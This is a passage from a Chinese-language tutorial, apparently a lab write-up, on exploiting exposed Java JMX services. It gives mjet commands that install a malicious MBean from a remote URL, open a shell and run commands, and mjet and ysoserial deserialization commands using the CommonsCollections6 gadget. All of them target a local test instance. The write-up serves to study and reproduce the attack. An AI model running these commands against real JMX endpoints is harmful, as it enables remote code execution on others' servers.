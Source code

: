 然后远程加载服务器上的恶意MBean

![image-20221122102547282](images/13.png)

![image-20221122102607859](images/14.png)

## 第二种方式

利用工具https://github.com/mogwailabs/mjet

```
jython mjet.py 127.0.0.1 18983 install super_secret http://127.0.0.1:8000 8000
```

![image-20221122123834031](images/15.png)

获取一个shell

```
jython mjet.py 127.0.0.1 18983 shell super_secret
```

![image-20221122123900198](images/16.png)

```
jython mjet.py 127.0.0.1 18983 command super_secret "ls"
```

![image-20221122124115672](images/17.png)

从目标中卸载MBean，这样我们注册的恶意MBean就会被删除

```
jython mjet.py 127.0.0.1 18983 uninstall
```

网上还有一些用MSF复现的，但是那个我没有打通就没有去搞了

### 第三种方式

在开启认证后，前面两种方法是打不了的，因为开启认证是不能调用`jmx.remote.x.mlet.allow.getMBeansFromURL`，这样就没有办法去远程注册恶意的MBean了

通过反序列化去攻击，当然这种方式需要服务端有相应的gadget，而且要吧ysoserial.jar导入mjet项目里面去

```
jython mjet.py 127.0.0.1 18983 deserialize CommonsCollections6 "open /System/Applications/Calculator.app"
```

也可以直接用ysoserial

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JMXInvokeMBean 127.0.0.1 18983 CommonsCollections6 "open /System/Applications/Calculator.app"
```

这里我没有去添加相应的jar包了

